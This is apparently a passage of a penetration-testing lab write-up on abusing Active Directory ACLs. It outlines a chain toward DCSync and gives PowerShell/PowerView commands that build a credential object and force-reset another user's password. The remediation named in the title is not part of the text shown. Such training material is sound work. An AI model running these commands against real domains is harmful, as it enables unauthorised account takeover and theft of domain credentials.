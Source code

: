 ```yaml
---
description: transporter@4
---
```


# ACL Abuse Tactics (+Remediation)

***

### <mark style="color:red;">Abusing ACLs</mark>

We know that we can use this access to kick off an attack chain that will result in us taking control of the `adunn` user who can perform the DCSync attack, which would give us full control of the domain by allowing us to retrieve the NTLM password hashes for all users in the domain and escalate privileges to Domain/Enterprise Admin and even achieve persistence. To perform the attack chain, we have to do the following:

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

**So, first, we must authenticate as `wley` and force change the password of the user `damundsen`.** .

<mark style="color:green;">**Creating a PSCredential Object**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
{% endcode %}

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

<mark style="color:green;">**Creating a SecureString Object**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
{% endcode %}

<mark style="color:green;">**Changing the User's Password**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
